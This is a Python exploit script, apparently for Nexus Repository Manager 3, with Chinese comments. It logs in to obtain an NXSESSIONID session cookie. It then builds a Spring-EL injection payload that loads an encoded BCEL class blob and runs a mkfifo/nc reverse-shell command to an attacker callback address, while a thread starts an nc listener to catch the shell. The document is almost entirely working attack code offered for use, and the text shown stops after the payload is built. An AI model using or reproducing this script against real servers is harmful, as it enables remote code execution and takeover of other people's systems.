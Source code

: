 ```python
BCEL_STRING = """$$BCEL$$$l$8b$I$A$A$A$A$A$A$ff$8dSMS$d3P$U$3d$8f$b6I$J$v$U$K$94$60QA$c5P$uU$E$3fZD$Fq$86$Z$40$87$3a$3a$ZWi$fa$c0$60I$3ai$ca$b0r$e5$7fq$ab$9b$d6$91$d1$a5$L$7f$87$L$fd$P$8ex_Z$3e$8a$ca$d8I$df$cb$bb$f7$9c$7b$eeG$de$d7_$l$3f$D$98$c5$p$F$j$I$c9$I$ab$88$40b$88o$9b$bbf$b6l$3a$5b$d9$c7$c5mn$f9$M$d2$bc$ed$d8$fe$CCH$9fx$a6$m$8aN$Z$8a$8a$$$a8$M$bd$c7$f0$8d$9a$e3$db$3b$9cA$d9$e2$fe$d1a$40$9fX$fd$D$93$97$d1$dd$sU$f0$3d$db$d9$8a$o$ce$mg$8b$b6$93$ad$be$8c$a2$8f$a1$pc$J$c1$7e$V$D$Yd$I$f3$3dn1$e8$fa$8b$d5$d3$dc$fcI$99$t$9ek$f1j$95d$86$Y$G$D$bb$edf$Xk$9b$9b$dc$e3$a5$Nn$96$b8$tc$98A$3b$f4$ad8$95$9aO$91$b8$b9$d3t$xHaD$c6y$V$Xp$b1$ad$ceVp$86n$aa$f3$E$8f$nyXk$7b$c0$bc$C$Nc$a2$bf$97$Y$86$f4$bfBDc$93$b8$o$40$e3$M$89cP3$9b$c0$9f$82$aebBd$p$94$97$3d$cf$f5$9al$Z$93$q$7e$ba$p$8b5$bb$i$U$92FH$E$9fV$91$c55$86$uQJ$ab$b6C$c3$e9o$hN$ab$91$820$a3$e2$Gfi$f4f$a5$c2$9d$SCF$3f$bb$e3m$92A$88$9b$o$c4$z$86$94$bet6$f0$8e$8a$5c$90$97$ef6$9d2$e6$Z$o$7c$d7$y$cf$d0$c8$97$dc$Se$da$p$S$5e$af$ed$U$b9$f7$d4$y$96$c92$fe_$Z$e5$Zb$F$df$b4$5e$ad$99$95$WQY$de$b3x$c5$b7$5d$a7$wc$89$9a$7d$cc9$f2$Q$aa$e0$d6$3c$8b$3f$b2$DJ$90$cc$b4$Ab$Uy$ba1$e2$d7$B$s$ee$M$adw$e94B$3b$a3$3d$92n$80$bd$a7$X$86$FZ$a5$c0$Y$a6u$A$f7$88$o$a0$df$88$s$d3$fe$e6$Dd$e9$TbF$a8$af$a7$60$84$fbz$LFd$b2PGbm$lIc$l$9a1U$c7$b9$GF$h$b8$bc$7e$c2t$b5i$ca$85$f7$916$g$98$caE2ud$8c$9c$f4$F$J$z$a2Iu$5c$8f$xu$cc$3d$7f$7b$f0C$L$ff$cb$f5$5d$8b$d4q$fb$5dP$88$c8t$i$9d$b4F$e9$5b$ed$c2$YTL$n$869t$e3$3e$e2XA$C$W$fa$f1$g$83t$G$f9C$Hd$94d$d0$j$8b$c9H$c9H$GO$g$f8$J$8dl$c3x$d0$aa$7b$91$fe$P$D$95$e5$df$5d$90$g$iv$E$A$A"""

# === 监听线程 ===
def listen_shell():
    print(f"\n[+] 启动监听：nc -lvnp {CALLBACK_PORT}")
    print("[*] 如果目标成功反弹，你将在此终端获得 shell。\n")
    subprocess.call(["nc", "-lvnp", str(CALLBACK_PORT)])

# === 启动监听线程 ===
listener_thread = threading.Thread(target=listen_shell)
listener_thread.start()

# === 登录获取 NXSESSIONID ===
login_url = f"{HOST}/service/rapture/session"
login_headers = {
    "X-Nexus-UI": "true",
    "Referer": f"{HOST}/",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "User-Agent": "Mozilla/5.0",
    "Accept": "*/*",
    "Origin": HOST,
    "X-Requested-With": "XMLHttpRequest",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
}

login_data = f"username={USERNAME_B64}&password={PASSWORD_B64}"

print("\n[+] 正在登录 Nexus3...")
session = requests.Session()
resp = session.post(login_url, headers=login_headers, data=login_data)

if "Set-Cookie" not in resp.headers and resp.status_code != 204:
    print("[-] 登录失败！响应内容：")
    print(resp.text)
    exit()

cookie = session.cookies.get_dict().get("NXSESSIONID", "")
print(f"[+] 登录成功，NXSESSIONID = {cookie}\n")

# === 构造 Spring-EL 注入 payload ===
el_expr = (
    f"${{''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader')"
    f".newInstance().loadClass('{BCEL_STRING}')"
    f".newInstance().exec('rm -f /tmp/f;mkfifo /tmp/f;/bin/sh -i < /tmp/f 2>&1 | nc {CALLBACK_IP} {CALLBACK_PORT} > /tmp/f')}}"
)

```